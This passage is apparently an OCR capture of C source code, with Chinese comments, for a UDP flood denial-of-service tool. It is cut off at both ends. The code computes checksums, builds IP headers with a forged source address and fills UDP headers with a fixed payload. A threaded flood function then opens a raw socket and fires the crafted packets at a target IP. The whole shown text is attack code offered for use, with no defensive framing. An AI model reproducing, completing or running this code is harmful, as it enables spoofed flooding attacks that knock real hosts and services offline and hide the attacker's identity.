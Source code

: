 ```c
        sum += *(unsigned char*)buf;
    }
    while (sum >> 16) {          // 处理溢出位
        sum = (sum & 0xffff) + (sum >> 16);
    }
    return (unsigned short)(~sum); // 返回校验和
}

// 初始化IP头部
void setup_ip_header(struct iphdr* iph)
{
    iph->ihl = 5;                         // IP头部长度为5个32位字
    iph->version = 4;                     // IPv4协议
    iph->tos = 0;                         // 服务类型
    iph->tot_len = sizeof(struct iphdr) + sizeof(struct udphdr) + 33;  // 总长度
    iph->id = htonl(54321);               // 标识字段
    iph->frag_off = 0;                    // 无分片
    iph->ttl = MAXTTL;                    // 生存时间
    iph->protocol = IPPROTO_UDP;          // UDP协议
    iph->check = 0;                       // 初始校验和为0
    iph->saddr = inet_addr("192.168.3.100");  // 伪造的源IP地址
}

// 初始化UDP头部
void setup_udp_header(struct udphdr* udph)
{
    udph->source = htons(27015);          // 源端口号
    udph->dest = htons(27015);            // 目标端口号
    udph->check = 0;                      // 校验和设置为0
    void* data = (void*)udph + sizeof(struct udphdr);  // UDP负载数据的位置
    memset(data, 0xFF, 4);                // 填充负载数据前4个字节为0xFF
    // 填充负载数据
    strcpy(data + 4, "\xff\xfb\x25\xff\xfd\x26\xff\xfb\x26\xff\xfd\x03\xff\xfb\x18\xff\xfb\x1f\xff\xfb\x20\xff\xfb\x21\xff\xfb\x22\xff\xfb\x27\xff\xfd\x05");
    udph->len = htons(sizeof(struct udphdr) + 33);  // UDP长度字段
}

// UDP洪水攻击线程函数
void* flood(void* par1)
{
    char* td = (char*)par1;          // 目标IP地址
    char datagram[MAX_PACKET_SIZE];   // 数据包缓冲区
    struct iphdr* iph = (struct iphdr*)datagram;   // IP头部
    struct udphdr* udph = (void*)iph + sizeof(struct iphdr);  // UDP头部

    struct sockaddr_in sin;           // 目标地址结构体
    sin.sin_family = AF_INET;         // 使用IPv4
    sin.sin_port = htons(17015);      // 目标端口号
    sin.sin_addr.s_addr = inet_addr(td);  // 目标IP地址

    int s = socket(PF_INET, SOCK_RAW, IPPROTO_UDP);  // 创建原始套接字
    if (s < 0) {                         // 检查套接字创建是否成功
        fprintf(stderr, "Could not open raw socket.\n");
        exit(-1);
    }

    memset(datagram, 0, MAX_PACKET_SIZE);  // 清空数据包缓冲区
    setup_ip_header(iph);                 // 初始化IP头部
    setup_udp_header(udph);               // 初始化UDP头部

    iph->daddr = sin.sin_addr.s_addr;      // 目标IP地址
    iph->check = csum((unsigned short*)datagram, iph->tot_len);  // 计算IP头部校验和

```